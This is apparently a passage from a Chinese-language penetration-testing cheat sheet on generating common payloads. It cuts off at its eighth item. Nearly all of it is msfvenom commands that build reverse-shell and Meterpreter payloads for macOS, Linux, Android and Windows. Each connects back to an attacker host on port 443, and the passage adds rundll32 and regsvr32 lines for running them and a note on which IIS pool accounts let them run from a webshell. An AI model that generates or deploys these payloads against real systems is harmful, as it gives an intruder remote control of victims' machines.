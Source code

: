   

**0x02 生成各类常用载荷**

Windows reverse_tcp Jar 这个载荷只有在 IIS 应用程序池内置账户为 LocalService、LocalSystem、NetworkService 时才可在 Webshell 下执行，ApplicationPoolIdentity 和自定义账户均不能执行。

**1. Mac reverse_tcp macho**

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.120 LPORT=443 -f macho > /tmp/mac.macho
```

#### 2. Linux reverse_tcp elf

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f elf > /tmp/linux.elf
```

#### 3. Android reverse_tcp apk

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/android.apk
```

#### 4. Windows reverse_tcp exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f exe > /tmp/reverse.exe
```

#### 5. Windows bind_tcp exe

```
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=999 -f exe > /tmp/bind.exe
```

#### 6. Windows reverse_https exe

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.120 LPORT=443 -f exe > /tmp/https.exe

命令行执行：
C:\ProgramData\https.exe
```

#### 7. Windows reverse_tcp dll

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f dll > /tmp/dll_x64.dll

命令行执行：
regsvr32 dll_x64.dll
rundll32 C:\ProgramData\dll_x64.dll,Start
```

#### 8. Windows reverse_tcp jar
